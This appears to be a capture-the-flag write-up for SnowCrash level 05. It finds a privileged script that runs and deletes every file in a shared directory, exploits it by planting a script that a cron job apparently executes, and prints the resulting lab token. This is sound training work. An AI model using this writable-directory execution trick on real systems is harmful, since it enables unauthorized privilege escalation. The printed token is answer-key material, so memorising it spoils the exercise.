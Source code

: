 # Level 05

Level doesn't contain anything on the home folder, so enumerating files that belongs to flag05 we found the following:

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

let's inspect the binary

```bash
level05@SnowCrash:~$ file /usr/sbin/openarenaserver
/usr/sbin/openarenaserver: POSIX shell script, ASCII text executable
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```

It looks like this script iterates through all files within the directory "/opt/openarenaserver/". For each file, it sets a maximum execution time limit of 5 seconds using "ulimit -t 5", then runs the file as a bash script with debugging enabled ("bash -x"). After execution, it removes the file. In summary, the script runs each file in the specified directory with a time limit of 5 seconds and deletes the file afterward which means any file we create in that directory will be executed as a bash script. let's create a script that executes getflag and wait for the cronjob? to run it

```bash
level05@SnowCrash:~$ echo 'getflag > /tmp/flag' > /opt/openarenaserver/flag.sh && chmod +x /opt/openarenaserver/flag.sh
```
now for the waiting part ...

and after a while we got the token !

```bash
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$
```
